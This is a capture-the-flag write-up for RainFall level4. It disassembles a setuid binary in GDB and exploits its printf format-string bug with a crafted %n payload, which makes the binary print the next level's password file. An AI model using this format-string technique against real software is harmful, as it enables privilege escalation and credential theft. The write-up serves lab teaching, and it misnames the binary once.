 ```sh
level4@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
-rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
-rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
level4@RainFall:~$ ./level4
42
42
level4@RainFall:~$ ./level4 42
42
42
```
There is one excutable file **level3**, it works like cat, take standard input, print them and shutting down. \
\
Run the binary file with GDB.
```sh
(gdb) info functions
...
0x08048444  p
0x08048457  n
0x080484a7  main
...
(gdb) disas p
Dump of assembler code for function p:
   0x08048444 <+0>:     push   %ebp
   0x08048445 <+1>:     mov    %esp,%ebp
   0x08048447 <+3>:     sub    $0x18,%esp
   0x0804844a <+6>:     mov    0x8(%ebp),%eax # get first parameter
   0x0804844d <+9>:     mov    %eax,(%esp)
   0x08048450 <+12>:    call   0x8048340 <printf@plt> # printf(first parameter);
   0x08048455 <+17>:    leave  
   0x08048456 <+18>:    ret    
End of assembler dump.
(gdb) disas n
Dump of assembler code for function n:
   ...
   0x08048460 <+9>:     mov    0x8049804,%eax # stdin
   0x08048465 <+14>:    mov    %eax,0x8(%esp)
   0x08048469 <+18>:    movl   $0x200,0x4(%esp) # 512
   0x08048471 <+26>:    lea    -0x208(%ebp),%eax # some variable[512]
   0x08048477 <+32>:    mov    %eax,(%esp)
   0x0804847a <+35>:    call   0x8048350 <fgets@plt> # fgets(buffer, 512, stdin)
   0x0804847f <+40>:    lea    -0x208(%ebp),%eax
   0x08048485 <+46>:    mov    %eax,(%esp)
   0x08048488 <+49>:    call   0x8048444 <p> # p(buffer)
   0x0804848d <+54>:    mov    0x8049810,%eax # global variable m
   0x08048492 <+59>:    cmp    $0x1025544,%eax # 0x1025544 = 16930116
   0x08048497 <+64>:    jne    0x80484a5 <n+78>
   0x08048499 <+66>:    movl   $0x8048590,(%esp) # "/bin/cat /home/user/level5/.pass"
   0x080484a0 <+73>:    call   0x8048360 <system@plt>
   0x080484a5 <+78>:    leave  
   0x080484a6 <+79>:    ret    
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
   0x080484a7 <+0>:     push   %ebp
   0x080484a8 <+1>:     mov    %esp,%ebp
   0x080484aa <+3>:     and    $0xfffffff0,%esp
   0x080484ad <+6>:     call   0x8048457 <n>
   0x080484b2 <+11>:    leave  
   0x080484b3 <+12>:    ret    
End of assembler dump.
```
We can see 3 functions ```main(), n(), p()```. ```n()``` function gets standard input by fgets, give to ```p()``` function, ```p()``` function does print the variable which is given by function ```n()```, but with ```printf()``` without formatter. \
And compare with variable ```m``` and 0x1025544, in decimal 16930116.
```sh
(gdb) x/s 0x8049810
0x8049810 <m>:   ""
```
As the previous level we try to lookup the stack values,
```sh
level4@RainFall:~$ python -c 'print "BBBB" + " %x" * 20' > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit4 | ./level4 
BBBB b7ff26b0 bffff794 b7fd0ff4 0 0 bffff758 804848d bffff550 200 b7fd1ac0 b7ff37d0 42424242 20782520 25207825 78252078 20782520 25207825 78252078 20782520 25207825
```
And we can see that our BBBB which is ```42424242``` at the 12th position, so now we just have to do the same thing as the previous level: set value to ```16930116```.

But oops, the value ```16930116``` is too big number for print it all !

But no worries, there is a solution for this.
```sh
python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"'
```
```printf()``` internally does counting for characters that has been printed but since we have to print ```16930112``` characters, it will be tough to allocate all of them in the memory. \
But by adding little ```d``` option, which helps to count characters "virtually" to track the total numbers of printed characters, it no longer has to allocate memory for millions of characters.
```sh
level4@RainFall:~$ python -c 'print "\x10\x98\x04\x08" + "%16930112d%12$n"' > /tmp/exploit4
level4@RainFall:~$ cat /tmp/exploit4 - | ./level4 
...
(hidden)
```
level4 passed !
